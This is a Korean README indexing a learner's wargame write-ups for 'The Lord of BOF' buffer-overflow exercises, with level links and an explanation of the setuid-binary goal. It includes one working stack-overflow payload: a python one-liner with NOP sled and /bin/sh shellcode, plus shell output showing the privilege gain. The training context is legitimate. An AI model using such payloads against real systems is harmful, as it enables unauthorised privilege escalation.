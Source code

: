 # The Lord of BOF (일명 LOB)

[[공지] BOF 원정대 서비스를 오픈합니다.](http://www.hackerschool.org/HS_Boards/zboard.php?id=HS_Notice&no=1170881885)

> [BOF-BufferOverflow- 원정대란?]
>
> 비교적 쉬운 BOF 공략 환경인 Redhat 6.2에서부터 궁극의 Fedora 14까지 
>
> 수십개의 레벨을 거쳐가며 BOF 시스템 해킹 실습을 하는 War-Game입니다.

시스템 해킹 쪽 워게임을 처음 풀어봐서 처음 접하는게 많았습니다. 그동안 보안을 공부하면서 왜 이런걸 안했을까 생각도 들었구요... 최대한 풀면서 배운 내용을 나의 것으로 만들려고 노력했습니다. 문제를 풀 때 필요했던 배경지식은 따로 문서를 작성하려고 합니다.

## Levels

- [Level 00, Environment Setting](https://github.com/CXBT/Writeup/blob/master/Wargame/The%20Lord%20of%20BOF/00SETTING.md)
- [Level 01, Gate -> Gremlin](https://github.com/CXBT/Writeup/blob/master/Wargame/The%20Lord%20of%20BOF/01GATE.md)
- [Level 02, Gremlin -> Cobolt](https://github.com/CXBT/Writeup/blob/master/Wargame/The%20Lord%20of%20BOF/02GREMLIN.md)
- [Level 03, Cobolt -> Goblin](https://github.com/CXBT/Writeup/blob/master/Wargame/The%20Lord%20of%20BOF/03COBOLT.md)
- [Level 04, Goblin -> Orc](https://github.com/CXBT/Writeup/blob/master/Wargame/The%20Lord%20of%20BOF/04GOBLIN.md)
- [Level 05, Orc -> Wolfman](https://github.com/CXBT/Writeup/blob/master/Wargame/The%20Lord%20of%20BOF/05ORC.md)
- [Level 06, Wolfman -> Darkelf](https://github.com/CXBT/Writeup/blob/master/Wargame/The%20Lord%20of%20BOF/06WOLFMAN.md)
- [Level 07, Darkelf -> Orge](https://github.com/CXBT/Writeup/blob/master/Wargame/The%20Lord%20of%20BOF/07DARKELF.md)
- [Level 08, Orge -> Troll](https://github.com/CXBT/Writeup/blob/master/Wargame/The%20Lord%20of%20BOF/08ORGE.md)
- [Level 09, Troll -> Vampire](https://github.com/CXBT/Writeup/blob/master/Wargame/The%20Lord%20of%20BOF/09TROLL.md)
- [Level 10, Vampire -> Skeleton](https://github.com/CXBT/Writeup/blob/master/Wargame/The%20Lord%20of%20BOF/10VAMPIRE.md)
- [Level 11, Skeleton -> Golem](https://github.com/CXBT/Writeup/blob/master/Wargame/The%20Lord%20of%20BOF/11SKELETON.md)
- [Level 12, Golem -> Darkknight](https://github.com/CXBT/Writeup/blob/master/Wargame/The%20Lord%20of%20BOF/12GOLEM.md)
- [Level 13, Darkknight -> Bugbear](https://github.com/CXBT/Writeup/blob/master/Wargame/The%20Lord%20of%20BOF/13DARKKNIGHT.md)
- [Level 14, Bugbear -> Giant](https://github.com/CXBT/Writeup/blob/master/Wargame/The%20Lord%20of%20BOF/14BUGBEAR.md)
- [Level 15, Giant -> Assassin](https://github.com/CXBT/Writeup/blob/master/Wargame/The%20Lord%20of%20BOF/15GIANT.md)
- [Level 16, Assassin -> Zombie](https://github.com/CXBT/Writeup/blob/master/Wargame/The%20Lord%20of%20BOF/16ASSASSIN.md)
- [Level 17, Zombie -> Succubus](https://github.com/CXBT/Writeup/blob/master/Wargame/The%20Lord%20of%20BOF/17ZOMBIE.md)
- [Level 18, Succubus -> Nightmare](https://github.com/CXBT/Writeup/blob/master/Wargame/The%20Lord%20of%20BOF/18SUCCUBUS.md)
- [Level 19, Nightmare -> Xavius](https://github.com/CXBT/Writeup/blob/master/Wargame/The%20Lord%20of%20BOF/19NIGHTMARE.md)
- [Level 20, Xavius -> Death_knight](https://github.com/CXBT/Writeup/blob/master/Wargame/The%20Lord%20of%20BOF/20XAVIUS.md)  <- I'm right here
- [Level 21, Death_knight]()

## 문제 풀이 방법

각 계정에는 다음 단계를 의미하는 계정의 `Setuid`가 걸린 프로그램이 있습니다. 간단히 말하자면 `Setuid`가 걸린 프로그램을 어떻게든 이용해 다음 단계 계정의 비밀번호를 알아내 다음 단계로 진행해서 20단계, `Death_knight`까지 진행하면 됩니다.

```sh
[gate@localhost gate]$ id
uid=500(gate) gid=500(gate) groups=500(gate)
[gate@localhost gate]$ ll
total 16
-rwsr-sr-x    1 gremlin  gremlin     11987 Feb 26  2010 gremlin
-rw-rw-r--    1 gate     gate          272 Mar 29  2010 gremlin.c
```

다음 예시는 `gate` 계정으로 로그인해 `id`와 `ll`로 홈 디렉토리를 본 상황입니다. 홈 디렉토리를 보면 `gremlin`이라고 하는 `gremlin` 계정의 `SetGID`와 `SetUID` 권한을 가진 프로그램이 있습니다. 저 프로그램을 BOF로 마음대로 다뤄서 gremlin의 비밀번호를 알아오는 것이 각 단계의 목표입니다.

LOB 환경은 `my-pass`라는 현재 계정의 비밀번호를 출력하는 명령어를 지원합니다. 만약 계정에 접근하게 되었다면 `my-pass`로 비밀번호를 알아내 다음 단계 계정으로 로그인해 진행하는 방식입니다.

```sh
[gate@localhost gate]$ ./gremlin `python -c "print '\x90'*200+'\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80'+'\x90'*36+'\x68\xf9\xff\xbf'"`
▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒1▒Ph//shh/bin▒▒PS▒ᙰ
                                                           ̀▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒h▒▒▒
bash$ id
uid=500(gate) gid=500(gate) euid=501(gremlin) egid=501(gremlin) groups=500(gate)
bash$ my-pass
euid = 501
hello bof world
```

위 예시는 `gremlin` 프로그램에 `/bin/sh`을 실행시키는 쉘코드를 주입하고 BOF를 이용해 실행흐름을 조작해서 쉘코드를 실행시킨 상황입니다. 이 프로그램은 `gremlin` 계정의 `SetUID` 권한을 가지고 있기 때문에 쉘코드 내부에서 `/bin/sh`을 실행시킬때 `gremlin` 계정으로 실행시키게 됩니다. 그래서 `my-pass` 명령어를 치면 `gremlin` 계정의 비밀번호가 나오게 되는 것입니다. 위 예시 처럼 각 단계에 있는 `SetUID`가 걸린 프로그램을 이용해 다음 단계 계정의 비밀번호를 알아가면 됩니다.

## 문서 양식

Writeup은 다음과 같은 항목으로 구성했습니다:

- 문제 소스
- 분석
  - 문제 파일 디스어셈블 코드
  - 예상되는 스택 구조
  - 관찰한 스택 구조
- Exploit
  - 공격 방법론
  - 쉘코드
  - 페이로드 구조
- 결과

## 다양한 배경지식

문제풀면서 새로 배운 것들도 문서화를 시켜야 겠네요 :smile:
